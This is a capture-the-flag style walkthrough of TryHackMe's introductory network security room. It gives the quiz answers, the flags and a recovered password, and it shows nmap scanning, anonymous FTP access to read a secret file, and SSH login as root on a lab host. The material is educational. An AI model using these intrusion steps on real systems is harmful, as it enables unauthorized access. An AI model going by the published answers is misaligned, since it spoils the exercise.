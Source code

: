 # Network Security

{% embed url="https://tryhackme.com/room/intronetworksecurity" %}
https://tryhackme.com/room/intronetworksecurity
{% endembed %}

## Task 1 Introduction

#### What type of firewall is Windows Defender Firewall?

{% hint style="success" %}
`Host Firewall`
{% endhint %}

## Task 2 Methodology

![](<../../.gitbook/assets/image (5) (1).png>)

#### During which step of the Cyber Kill Chain does the attacker gather information about the target?

{% hint style="success" %}
`Recon`
{% endhint %}

## Task 3 Practical Example of Network Security

```bash
nmap -n -sVC 10.10.2.213
```

![](<../../.gitbook/assets/Screenshot from 2022-04-27 06-25-11.png>)

![](<../../.gitbook/assets/Screenshot from 2022-04-27 06-25-20.png>)

#### What is the password in the `secret.txt` file?

```bash
lftp -u anonymous, 10.10.2.213
ftp > ls -lA
ftp > cat secret.txt 
```

![](<../../.gitbook/assets/Screenshot from 2022-04-27 06-28-45.png>)

{% hint style="success" %}
`ABC789xyz123`
{% endhint %}

#### What is the content of the `flag.txt` in the `/root` directory?

```bash
ssh root@10.10.2.213
```

{% hint style="success" %}
`THM{FTP_SERVER_OWNED}`
{% endhint %}

#### What is the content of the `flag.txt` in the `/home/librarian` directory?

```bash
cat /home/librarian/flag.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-04-27 06-30-31.png>)

{% hint style="success" %}
`THM{LIBRARIAN_ACCOUNT_COMPROMISED}`
{% endhint %}
